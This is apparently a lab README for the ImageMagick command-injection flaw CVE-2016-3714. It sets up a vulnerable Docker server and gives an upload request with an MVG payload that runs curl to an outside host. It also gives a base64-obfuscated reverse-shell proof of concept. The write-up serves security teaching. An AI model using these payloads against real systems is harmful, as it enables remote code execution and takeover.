

# Imagemagick Command Injection Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

Referers:

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## Environment Setup

Execute the following command to start a PHP server that includes Imagemagick 6.9.2-10:

```
docker compose up -d
```

## Exploit

Visit `http://your-ip:8080/` to see an upload component.

Send the following request:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

It can be seen that `www.leavesongs.com:8889` has received the http request, after the curl command was executed successfully:



POC of getting a reverse shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```


